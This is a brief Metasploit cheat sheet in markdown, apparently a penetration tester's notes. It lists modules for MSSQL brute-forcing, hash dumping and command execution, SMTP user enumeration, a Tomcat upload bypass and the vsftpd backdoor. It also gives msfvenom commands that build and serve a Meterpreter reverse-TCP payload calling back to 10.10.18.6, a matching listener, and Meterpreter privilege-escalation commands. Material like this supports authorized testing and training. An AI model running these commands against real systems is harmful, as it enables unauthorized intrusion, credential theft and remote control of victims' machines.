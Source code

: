 ## MSSQL

```bash
auxiliary/scanner/mssql/mssql_login
auxiliary/admin/mssql/mssql_enum
auxiliary/admin/mssql/mssql_enum_sql_logins
auxiliary/scanner/mssql/mssql_hashdump
auxiliary/admin/mssql/mssql_exec
auxiliary/admin/mssql/mssql_enum_domain_accounts
```

## SMTP

```bash
auxiliary/scanner/smtp/smtp_version # SMTP Banner Grabber
auxiliary/scanner/smtp/smtp_enum # SMTP User Enumeration Utility
```

## Apache Tomcat

```bash
exploit/multi/http/tomcat_jsp_upload_bypass
set payload java/jsp_shell_bind_tcp
set shell cmd # dla Windows

msfvenom -p windows/x64/meterpreter_reverse_tcp Lhost=10.10.18.6 Lport=1234 -f exe > payload.exe
python3 -m http.server

use multi/handler
set payload windows/x64/meterpreter_reverse_tcp
set Lhost=10.10.18.6
set Lport=1234
exploit -jq
```

## FTP

```bash
exploit/unix/ftp/vsftpd_234_backdoor
```

# Windows Postexploitation

## Meterpreter

```bash
getuid
systinfo
getsystem
show_mount
ps
getprivs
```
